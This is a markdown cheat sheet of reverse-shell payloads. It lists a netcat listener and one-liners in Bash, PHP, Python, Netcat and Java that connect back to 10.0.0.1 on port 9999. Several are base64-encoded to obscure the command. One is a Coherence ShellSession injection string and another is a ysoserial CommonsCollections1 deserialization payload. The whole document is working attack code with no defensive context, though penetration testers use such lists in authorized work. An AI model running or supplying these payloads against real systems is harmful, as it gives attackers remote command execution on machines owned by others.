 # Various Reverse Shells
# Shell Listener
```
nc -lvp 9999
```
###
or
###
```
nc -A -l 9999
```
###

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###
###
```
echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash
```
###
#### Base64 Encoded
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
###
###
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","bash -i >& /dev/tcp/10.0.0.1/9999 0>&1"] as String[])
p.waitFor()
```
###
###
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###
###
```
com.tangosol.coherence.mvel2.sh.ShellSession('java.lang.Runtime.getRuntime().exec(new%20String%20[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"});')
```
###
#### Base64 Encoded Payload for Deserialization
```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```
###
